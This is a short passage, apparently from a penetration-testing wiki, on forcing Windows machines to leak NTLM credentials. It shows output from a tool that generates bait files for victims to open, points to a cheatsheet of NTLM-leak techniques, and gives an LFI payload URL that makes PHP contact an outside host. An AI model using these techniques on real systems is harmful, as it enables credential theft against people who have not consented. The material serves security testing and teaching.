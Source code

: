 > Created: test/test.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
> Created: test/test.asx (OPEN)
> Created: test/test.jnlp (OPEN)
> Created: test/test.application (DOWNLOAD AND OPEN)
> Created: test/test.pdf (OPEN AND ALLOW)
> Created: test/zoom-attack-instructions.txt (PASTE TO CHAT)
> Generation Complete.
> ```

### [All\_NTLM-Leak](https://github.com/Gl3bGl4z/All\_NTLM\_leak)

> Cheatsheet

This is a list of techniques to force NTLM authentications to steal credentials from the victim.

### Force NTLM Privileged Authentication

You may be able to **force a windows machine to authenticate to an arbitrary machine** using a privileged account. Read the following page to learn more:

{% content-ref url="../active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## LFI

The include() in PHP will resolve the network path for us.

```
http://host.tld/?page=//11.22.33.44/@OsandaMalith
```

![](<../../.gitbook/assets/image (642).png>)
